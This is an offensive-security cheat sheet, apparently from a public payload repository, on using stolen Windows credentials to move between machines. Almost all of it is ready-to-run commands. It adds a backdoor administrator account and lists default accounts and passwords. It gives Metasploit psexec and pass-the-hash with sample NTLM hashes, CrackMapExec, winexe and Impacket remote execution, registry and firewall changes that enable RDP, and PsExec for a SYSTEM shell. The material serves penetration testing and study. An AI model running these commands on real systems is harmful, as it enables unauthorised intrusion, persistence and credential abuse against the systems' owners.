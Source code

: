 # Windows - Using credentials

## TIP 1 - Create your credential :D

```powershell
net user hacker hacker /add
net localgroup administrators hacker /add
```

Some info about your user

```powershell
net user /dom
net user /domain
```

## TIP 2 - Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

## TIP - Sandbox Credential - WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain CSCOU  
set SMBUser jarrieta
set SMBPass nastyCutt3r
services -p 445 -R  
run
creds
```

## Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser jarrieta
set SMBPass nastyCutt3r
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d CSCOU -u jarrieta -p nastyCutt3r
python crackmapexec.py 10.9.122.5 -d CSCOU -u jarrieta -p nastyCutt3r -x whoami
```

## Crackmapexec (Pass The Hash)

```powershell
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)

```python
winexe -U CSCOU/jarrieta%nastyCutt3r //10.9.122.5 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python smbexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python wmiexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
```

## RDP Remote Desktop Protocol (Impacket)

```powershell
python rdpcheck.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
rdesktop -d CSCOU -u jarrieta -p nastyCutt3r 10.9.122.5
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

For Server 2012 R2, Win8.1+

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:192.168.1.12
```

with Metasploit

```powershell
run getgui -u admin -p 1234
```

## Netuse (Windows)

```powershell
net use \\ordws01.cscou.lab /user:CSCOU\jarrieta nastyCutt3r
C$
```

## Runas (Windows - Kerberos auth)

```powershell
runas /netonly /user:CSCOU\jarrieta "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )

```powershell
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe -s  # get System shell
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
